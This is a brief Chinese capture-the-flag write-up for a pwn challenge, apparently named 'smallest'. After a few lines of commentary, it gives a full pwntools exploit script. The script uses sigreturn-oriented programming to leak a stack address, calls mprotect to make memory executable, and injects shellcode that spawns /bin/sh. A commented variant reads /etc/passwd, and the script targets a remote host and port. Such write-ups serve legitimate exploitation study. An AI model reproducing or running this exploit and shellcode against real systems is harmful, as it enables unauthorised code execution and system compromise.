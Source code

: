 参考：<http://www.freebuf.com/articles/network/87447.html>

最开始其实是准备直接系统调用`execve`, 但是本地成功远程失败，猜测是服务端ban了execve，准备使用open

但是使用shellcode的时候竟然可以使用execve了？？？？？？题目环境中途改了？

payload:
```
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.clear()
context.arch = "amd64"
context.terminal = ['terminator', '-x', 'bash', '-c']
#  context.log_level = "debug"

frame = SigreturnFrame(kernel="amd64")
frame.rax = constants.SYS_read
frame.rdi = constants.STDIN_FILENO
frame.rdx = 0x400
frame.rip = 0x00000000004000be

#p = process("smallest")
p = remote("106.75.61.55", 20000)

p.send(p64(0x4000b0)+p64(0x00000000004000bb)+p64(0x4000b0))

# gdb.attach(p)
raw_input()
p.send("\xbb")
raw_input()
leak = p.recv()
print hex(u64(leak[16:24]))
frame.rsp = u64(leak[16:24]) - 0x1000
frame.rsi = u64(leak[16:24]) - 0x1000
p.send(p64(0x4000b0)+p64(0x4000be)+str(frame))
raw_input()
p.send(p64(0x4000be)+"\x00"*7)
raw_input()

shellcode_addr = 0x400000
shellcode = "hrve\x01\x814$\x01\x01\x01\x01H\xb8/etc/pasPj\x02XH\x89\xe71\xf6\x99\x0f\x05A\xba\xff\xff\xff\x7fH\x89\xc6j(Xj\x01_\x99\x0f\x05" # cat /etc/passwd
shellcode = "jhH\xb8/bin///sPj;XH\x89\xe71\xf6\x99\x0f\x05" # sh
frame.rax = constants.SYS_mprotect
frame.rdi = shellcode_addr
frame.rsi = 0x1000
frame.rdx = 7
p.send(p64(0x4000b0)+p64(0x4000be)+str(frame))
raw_input()
p.send(p64(0x4000be)+"\x00"*7)
raw_input()
frame.rax = constants.SYS_read
frame.rdi = constants.STDIN_FILENO
frame.rsi = 0x400100
frame.rdx = 100
p.send(p64(0x4000b0)+p64(0x4000be)+str(frame))
raw_input()
p.send(p64(0x4000be)+"\x00"*7)
raw_input()
p.send(shellcode)
raw_input()
p.send(p64(0x400100))
```